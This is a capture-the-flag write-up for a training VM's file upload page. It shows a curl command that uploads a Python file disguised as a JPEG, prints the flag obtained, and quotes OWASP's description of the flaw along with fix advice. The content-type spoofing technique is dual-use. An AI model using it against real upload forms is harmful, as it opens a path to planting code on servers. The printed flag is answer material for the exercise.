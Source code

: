 # File Upload

![file_upload](./img/file_upload.png)
On the page ```http://[VM_IP]/?page=upload```
Let's try to transfer an empty python script instead of a picture using curl.
```
curl -F "Upload=send" -F "uploaded=@empty.py;type=image/jpeg" http://[VM_IP]/index.php\?page\=upload
```

So, we get the flag
```
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```


## Explanation
Attack type: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
> Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked.
> Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

## How to fix it
> The application should perform filtering and content checking on any files which are uploaded to the server.
> Files should be thoroughly scanned and validated before being made available to other users.
